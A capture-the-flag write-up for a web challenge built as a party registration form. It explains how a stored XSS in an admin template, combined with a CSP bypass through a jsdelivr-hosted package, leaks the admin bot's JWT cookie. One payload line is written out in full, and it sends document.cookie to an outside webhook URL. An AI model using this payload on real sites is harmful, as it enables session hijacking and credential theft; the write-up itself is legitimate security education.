 This challenge presents a simple form that functions as a party registration system:

![image.png](./images/image.png)

Examining the source code reveals that after submitting the form, user responses are saved to the database and a call to `bot.visit()` is triggered:

![image.png](./images/image(1).png)

This function generates a JWT containing the flag, sets it as the session cookie, and then navigates to the `/admin` route followed by `/admin/delete_all`.

The vulnerability lies in the `/admin` template, which uses the safe filter on the `halloween_name` field, making it susceptible to XSS attacks:

![image.png](./images/image(2).png)

However, exploitation isn't straightforward. The `index.js` file reveals an important security measure:

![image.png](./images/image(3).png)

A Content-Security-Policy header restricts script execution to the same domain and `https://cdn.jsdelivr.net`. To bypass this restriction, I used a CSP bypass technique from the resource: https://www.jsdelivr.com/package/npm/csp-bypass

Specifically, I used this payload as the halloween name:

```html
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script><br csp="fetch('https://webhook.site/3eca71b1-4380-4b4f-8493-76bb6e5e1d6e?'+document.cookie)">
```

This payload allows me to make a request to a webhook instance where I can capture the cookie containing the JWT:

![image.png](./images/image(4).png)

Decoding this JWT token reveals the flag:

![image.png](./images/image(5).png)